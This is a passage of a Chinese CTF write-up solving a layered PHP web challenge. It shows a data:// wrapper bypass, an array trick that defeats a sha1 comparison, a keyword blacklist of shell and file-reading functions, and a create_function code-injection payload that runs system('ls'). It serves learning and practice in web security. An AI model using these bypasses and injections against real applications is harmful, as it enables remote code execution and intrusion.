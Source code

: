 
	if (file_get_contents($file) !== 'debu_debu_aqua')
	    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");         

data协议`data://text/plain,debu_debu_aqua`      
`debu_debu_aqua`记得URL编码        

第四层：     

	if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
	    extract($_GET["flag"]);
	    echo "Very good! you know my password. But what is flag?<br>";
	} else{
	    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
	}       

数组绕过     

`shana[]=1&passwd[]=2`      
URL编码     


第五层：    

	if(preg_match('/^[a-z0-9]*$/isD', $code) || 
	preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
	    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
	} else { 
	    include "flag.php";
	    $code('', $arg); 
	} ?>       


$code和$arg可以通过`extract($_GET["flag"]);`传入     

`creat_function()`函数    

   

![01.png](https://img11.360buyimg.com/ddimg/jfs/t1/163792/4/20511/6856/6082e575Ef04fe2e5/514edbaaa03f01e8.png)      




	$func=creat_function('$a,$b','return $a*$b;');
	func()  就相当于    
	function func($a,$b)
	{
		return $a*$b;
	}  

如果参数可控，我们就可以通过`}`提前结束函数，执行其他语句

	$func=creat_function('$a,$b','return $a*$b;}eval(system('ls'));//');   
	
	function func($a,$b)
		{
			return $a*$b;}
			eval(system('ls'));//}
